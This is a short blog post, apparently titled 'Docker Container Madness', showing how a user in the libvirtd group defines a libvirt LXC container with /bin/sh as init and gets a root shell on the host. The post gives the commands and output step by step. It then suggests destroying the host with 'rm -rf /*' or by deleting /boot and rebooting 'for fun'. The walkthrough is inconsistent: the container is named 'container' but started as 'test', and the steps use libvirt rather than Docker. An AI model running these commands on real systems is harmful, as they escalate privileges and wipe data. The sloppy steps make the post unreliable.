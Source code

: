 ```yaml
---
layout: post
title: Docker Container Madness
---
```


I'm unsure if this is a vulnerability on the intended behaviour of LXC/Docker. 
Nevertheless, this harmless configuration file seems to cause A LOT of worry.

Preamble if you are running a Debian-based host:
{% highlight bash %}
admin@host:~$ apt-get install docker virt-manager
# export LIBVIRT_DEFAULT_URI=lxc:///{% endhighlight %}

Create an unprivileged user and login:
{% highlight bash %}
admin@host:~$ useradd -G libvirtd user 
{% endhighlight %}
Save the following XML template, which contains a name, a memory limit, console access and a shell. E.g. container.xml
{% highlight xml %}
  <domain type='lxc'>
	  <name>container</name>
	  <memory>102400</memory>
	  <os>
		  <type>exe</type>
		  <init>/bin/sh</init>
	  </os>
	  <devices>
		  <console type='pty'/>
	  </devices>
  </domain>
{% endhighlight %}
Import container into Libvirt:
{% highlight bash %}
  user@host:~$ virsh define container.xml
{% endhighlight %}
Start the container:
{% highlight bash %}
  user@host:~$ virsh start test
  user@host:~$ virsh console test
{% endhighlight %}
And now run bash shell:
{% highlight bash %}
  Connected to domain test
  Escape character is ^]
  
  # bash
  bash: groups: command not found
  /bin/lesspipe: 1: /bin/lesspipe: basename: not found
  /bin/lesspipe: 1: /bin/lesspipe: dirname: not found
  /bin/lesspipe: 295: [: =: unexpected operator
  Command 'dircolors' is available in '/usr/bin/dircolors'
  The command could not be located because '/usr/bin' is not included in the PATH environment variable.
  dircolors: command not found
  root@host:/# 
{% endhighlight %}

Huh? You now have root on the host. 
What kind of messed up world is this? I can read/write to any file on the host:

{% highlight bash %}
  root@host:/# rm -rf /*
{% endhighlight %}

Or alternatively have a bit of fun
{% highlight bash %}
  root@host:/# rm /boot/*; reboot;
{% endhighlight %}


Is it possible to be careful with Docker? It doesn't seem safe for mortals.


{% highlight bash %}
# docker version

Client version: 1.0.1
Client API version: 1.12
Go version (client): go1.2.1
Git commit (client): 990021a
Server version: 1.0.1
Server API version: 1.12
Go version (server): go1.2.1
Git commit (server): 990021a
```
{% endhighlight %}
